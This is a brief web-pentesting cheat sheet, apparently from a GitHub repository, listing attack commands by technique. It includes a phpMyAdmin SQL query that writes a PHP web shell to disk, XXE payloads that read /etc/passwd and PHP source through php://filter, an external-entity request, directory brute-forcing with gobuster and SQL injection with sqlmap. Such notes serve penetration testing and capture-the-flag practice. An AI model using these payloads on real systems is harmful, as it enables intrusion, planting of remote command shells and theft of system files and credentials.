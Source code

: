 # Web

- [BruteForce Url](#bruteforce-url)
- [PhpMyAdmin](#phpmyadmin)
- [XML external entity (XXE)](#xml-external-entity-xxe)
- [Mysql](#mysql)

## BruteForce Url
### Gobuster
```
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```
### Dibuster
```
dirbuster
```

### Zap
```
owasp-zap
```

## PhpMyAdmin
### Quick Shellcode
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

## XML external entity (XXE)
### Read File
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```
### Get Link
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```

## MySql
### Connect to mysql
```
mysql -h localhost -u myname -p
```
### SQL Injection
```
sqlmap -u url --batch
```

## Request
### Curl
```
curl 'http://example.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=login&password=pass'
```
